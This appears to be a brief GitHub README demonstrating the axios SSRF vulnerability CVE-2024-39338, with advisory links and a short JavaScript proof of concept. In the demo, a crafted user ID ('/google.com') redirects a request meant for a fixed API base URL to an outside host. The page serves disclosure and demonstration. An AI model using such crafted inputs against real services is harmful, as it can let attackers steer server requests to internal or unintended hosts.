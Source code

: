 # Axios SSRF Vulnerability CVE-2024-39338

Effected versions: >=1.3.2 <1.7.4

[Snyk Vuln](https://security.snyk.io/vuln/SNYK-JS-AXIOS-7361793)
[GitHub Issue](https://github.com/axios/axios/issues/6295)
[GitHub PR](https://github.com/axios/axios/pull/6539)

## Demo

```js
const axios = require('axios');

this.axios = axios.create({
  baseURL: 'https://userapi.example.com',
});

//userId = '12345';
userId = '/google.com'

this.axios.get(`/${userId}`).then(function (response) {
  console.log(`config.baseURL:  ${response.config.baseURL}`);
  console.log(`config.method:   ${response.config.method}`);
  console.log(`config.url:      ${response.config.url}`);
  console.log(`res.responseUrl: ${response.request.res.responseUrl}`);
});
```